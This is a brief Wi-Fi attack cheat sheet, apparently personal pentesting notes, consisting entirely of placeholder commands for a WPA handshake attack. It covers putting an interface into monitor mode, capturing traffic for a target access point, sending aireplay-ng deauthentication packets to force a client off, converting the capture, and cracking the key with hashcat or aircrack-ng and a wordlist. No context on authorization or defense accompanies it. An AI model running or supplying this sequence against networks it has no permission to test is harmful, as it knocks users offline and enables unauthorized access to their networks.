 # Wi-Fi
`airmon-ng` check driver to install

`monitormode <INTERFACE> <MODE>`
`airodump-ng <INTERFACE>`
`airodump-ng -c <CHANNEL> --bssid <AP_MAC> -w <OUTPUT> <INTERFACE>`
`aireplay-ng -0 <AMOUNT_PACKETS> -a <AP_MAC> -c <TARGET_MAC> <INTERFACE>` deauth

/usr/lib/hashcat-utils/cap2hccapx.bin <CAP_FILE> <HCCAPX_FILE>  
`hashcat -m 2500 <CAP_FILE> <WORDLIST> --force --potfile-disable`
`aircrack-ng <CAP_FILE> -w <WORDLIST>`